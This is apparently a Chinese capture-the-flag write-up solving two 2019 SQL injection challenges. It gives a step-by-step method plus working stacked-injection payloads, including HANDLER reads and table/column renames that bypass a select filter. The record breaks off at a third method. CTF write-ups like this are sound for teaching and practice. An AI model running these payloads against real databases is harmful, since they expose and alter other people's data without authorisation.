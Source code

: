 # [SUCTF 2019]EasySQL 1

1. 试试SQL注入的正常套路
- 先试试1,有回显Array ( [0] => 1 )
- 再试试字母aaa,没有回显
- 试试单引号注入1' or '1'='1,提示不一样，因此猜测这里有注入点
- 试试有多少列1' order by 4#,还是不成功，因此一般的联合查询在这里不能使用
- 基于时间的盲注和报错注入都需要嵌套联合查询语句来实现，因此可以跳过，直接试试布尔型盲注1' and length(database())>=1,还是不成功
2. 利用堆叠注入
- 查找所有数据库1;show databases#
- 查找所有表名1;show tables#
- 查询Flag表中的列1;show columns from Flag#
- 不成功
3. 输入字符的时候啥也不回显。
   有经验的师傅这个时候其实就懂得要放弃布尔盲注、时间盲注了。
   这种格式很明显是要你搞后端代码，他到底怎么写的呢？
   那就很有趣了。
   其实你应该推断出一个基本事实：
   他的后端既然能做到数字回显字母不回显，说明有一个 或 结构，而且不直接回显flag，但作为一道题目，from一定是from flag。
4. 猜测select $_POST['query'] || flag from flag
5. 拼接select *,1 from flag

# [强网杯 2019]随便注 1

1. 用union联合查询

第一步、尝试测试注入点（一些小tips：利用引号，and 1=1， or 1=1之类的）判断是字符型还是数字型

1' 报错

1'# 不报错，正常回显

1' and 1=1# 不报错，正常回显

1' or 1=1# 不报错，正常回显

说明存在SQL注入

第二步、尝试用order by语句查询表的列数

1' order by 1;#不报错，正常回显

1' order by 2;#不报错，正常回显

1' order by 3;#报错

说明这张表有三列

第三步、尝试用union select 找到回显位

发现回显过滤了关键字

2. 不能找到回显位，尝试使用堆叠注入。

第一步、通过"1';show databases;#"爆出数据库

第二步、通过"1';show tables;#"爆出表名

第三步、看到此处有两个表，通过"1';show columns from `words`;#",先爆出"words"中的内容。然后通过"1';show columns from `1919810931114514`;#"爆出"1919810931114514"的内容。

3. 在"1919810931114514"中发现flag所在的字段。但select函数已被过滤，下面尝试用三种方法用来做select函数被过滤的题型。

>第一种：hander语句代替select语句。　

语法结构：

　　　　HANDLER tbl_name OPEN [ [AS] alias]

　　　　HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)

　　　　[ WHERE where_condition ] [LIMIT ... ]

　　　　HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }

　　　　[ WHERE where_condition ] [LIMIT ... ]

　　　　HANDLER tbl_name READ { FIRST | NEXT }

　　　　[ WHERE where_condition ] [LIMIT ... ]

　　　　HANDLER tbl_name CLOSE

解释：通过handler语句查询users表的内容

　　　　handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名

　　　　handler yunensec read first; #读取指定表/句柄的首行数据

　　　　handler yunensec read next; #读取指定表/句柄的下一行数据

　　　　handler yunensec read next; #读取指定表/句柄的下一行数据

　　　　...

　　　　handler yunensec close; #关闭句柄

Payload: 1';handler `1919810931114514` open as `kay`;handler `kay` read next;#

得到flag.

>第二种：更改表明列名

虽然正则过滤过滤了很多函数，但没过滤alert和rename等关键字。

我们如果将表1919810931114514名字改为words，flag列名字改为id，那么我们就能得到flag的内容了！

更改表明列名的语法

-- 修改表名

　　　　rename table old_table to new_table;

　　　　-- 或者

　　　　alter table old_table rename to new_table;

　　　　-- 修改列名称

　　　　alter table table_name change column old_name new_name varchar(255);

　　　　-- 修改字段类型

　　　　alter table table_name modify column column_name varchar(255) default '' COMMENT '注释';



Payload："1';rename table `words` to `words1`;rename table `1919810931114514` to `words`;alter table `words` change flag id varchar(100);"

拆分开来如下

　　　　1';

　　　　rename table `words` to words1;

　　　　renmae table `1919810931114514` to `words`;

　　　　alter table words change flag id varchar(100);

然后使用"1' or 1=1;#"即可查出flag.

>第三种，尝试使用SQL预编译的方式